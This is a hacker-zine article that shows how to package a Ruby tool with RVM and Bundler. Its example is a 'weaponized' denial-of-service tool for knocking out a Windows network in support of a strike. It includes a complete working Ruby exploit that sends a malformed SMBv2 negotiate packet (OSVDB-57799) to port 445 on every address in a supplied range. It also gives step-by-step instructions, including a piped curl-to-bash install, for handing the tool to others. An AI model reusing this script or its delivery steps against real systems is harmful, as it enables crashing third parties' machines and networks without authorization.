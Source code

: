 ﻿---
layout: default
title: "Hack This Zine #10 article - Delivering Weaponized Exploits with Ronin, RVM, and Bundler with evoltech and postmodern"
---

# Hack This Zine #10 article - Delivering weaponized exploits with Ronin, RVM, and Bundler

One of the challenges I have found when developing with ruby has been with configuring my ruby development environment.  Trying to get the right version of ruby installed then all of the required gems only to find out that I need to upgrade my copy of ruby gems which is not supported by my OS packaging system. Postmodern turned me onto rvm [1] and bundler [2] which has been a revelation similar to the discovery of yum and apt-get after manually managing rpm and dpkg dependencies by hand.  There is some overlapping functionality in rvm and bundler, but they can be used together to prevent you from having to install a specific ruby environment from scratch, and provides a simple way to specify application dependencies for development and deployment.

Consider the following scenario.  You and your tech collective have been tasked with providing a weaponized tool capable DOSing a windows network in solidarity with some general strike.  The requirements of the tool are that it is simple to use, requires running only a few commands, and requires no manual intervention once running.  Your group decides to implement the tool in ruby leveraging the ronin environment.  The group has access to its own custom ronin overlays, and custom ruby libraries which are not publicly published, as well as all of the other public ruby libraries which are published. After  finishing the app your group needs a simple way to package it all up and send it off to the folk who requested the tool.  This can be done easily with rvm and bundler.  The included Readme.txt sent to your allies may look something like this:

Install a Ruby 1.9.1 environment with rvm (pay attention to any notes on
modifying your .bashrc here):

        $ bash < <( curl http://rvm.beginrescueend.com/releases/rvm-install-head )
        $ exec ~/.bashrc
        $ rvm install 1.9.1 ; rvm 1.9.1
        $ gem install bundler

Pull down the code for the netDOS app (contents of this are described below)
        # Note: no one but your tech-collective and client has access to this repo.

        $ git clone git://your.sketchy.crew.org/netDos.git
        $ cd netDos

Install the dependencies for the netDOS app:

        $ bundle install

Run netDos:

        $ ./netDos 10.1.1.1/24

To make achieve this level of ease all the team had to do is specify the specific dependencies for netDOS in a file called `Gemfile` in the apps main directory that references the specific version of the libraries used, optionally with a path to a source location.  ie:

        $ cat Gemfile
        source :gemcutter
        gem 'open_namespace', '~> 0.3.0'
        gem 'dm-core', '~> 0.10.0'
        gem 'ronin', '~> 0.4.0', :git =>'https://github.com/ronin-ruby/ronin.git'
        gem 'ronin-support', '~> 0.1.0', :git =>'https://github.com/ronin-ruby/ronin-support.git'

Then roll it up for deployment with (saving all dependencies in your app's main directory under vendor/cache):
        $ bundle package

A quick look through recent vulnerabilities brings you to a likely match from OSVDB-57799 [3] which describes a flaw in the SMBv2 that can trigger a dereference 
to an out of bound memory area.  And bonus for you (cause you have been working late nights and all your get for all this activisty work is dumpstered bagels) someone already wrote a proof of concept [4].  All you have to do is weaponize it for your clients target [5]:

{% highlight ruby %}
#!/usr/bin/env ruby
require 'ronin/extensions/ip_addr'
require 'ronin/network/tcp'

payload = [
  "\x00\x00\x00\x90", # Begin SMB header: Session message
  "\xff\x53\x4d\x42", # Server Component: SMB
  "\x72\x00\x00\x00", # Negociate Protocol
  "\x00\x18\x53\xc8", # Operation 0x18 & sub 0xc853
  "\x00\x26", # Process ID High: --> :) normal value should be "\x00\x00"
  "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe",
  "\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54",
  "\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31",
  "\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00",
  "\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57",
  "\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61",
  "\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c",
  "\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c",
  "\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e",
  "\x30\x30\x32\x00"
].join

unless ARGV.length > 0
  puts "usage: [IPv4 | IPv6 | CIDR Range | Globbed Range] ..."
  puts "examples:"
  puts " #{$0} 10.1.1.1"
  puts " #{$0} 10.1.1.1/24"
  puts " #{$0} 10.1.*.1-5"
  exit -1
end 

ARGV.each do |range|
  IPAddr.each(range) do |ip|
    begin
      puts "[-] Sending SMB payload to #{ip} ..."
      Net.tcp_connect_and_send(payload,ip,445)
    rescue
      puts "[!] Skipping #{ip}"
      next
    end
  end
end
{% endhighlight %}

This file would be included in the repo with the Gemfile as well as the 
Gemfile.lock, and all of the files installed in vendor/cache after running `bundle package`.  Then finish the night by sending off an email with the simple instructions above to your friends, grab beverage of your choice, and head down to the tracks to enjoy the rest of your evening.

[1] RVM - Ruby Version Manager http://rvm.beginrescueend.com/

[2] Bundler is a tool that manages gem dependencies for your ruby application. It takes a gem manifest file and is able to fetch, download, and install the gems and all child dependencies specified in this manifest. It can manage any update to the gem manifest file and update the bundle's gems accordingly. It also lets you run any ruby code in context of the bundle's gem environment.
https://github.com/carlhuda/bundler/blob/master/README.md

[3] OSVDB-57799 'Microsoft Windows srv2.sys Kernel Driver SMB2 Malformed 
NEGOTIATE PROTOCOL REQUEST Remote DoS' : http://osvdb.org/57799

[4] OSVDB-57799 proof of concept by Laurent Gaffié : 
http://g-laurent.blogspot.com/2009/09/windows-vista7-smb20-negotiate-protocol.html

[5] Weaponized OSVDB-57799 written by postmodern: http://gist.github.com/183261
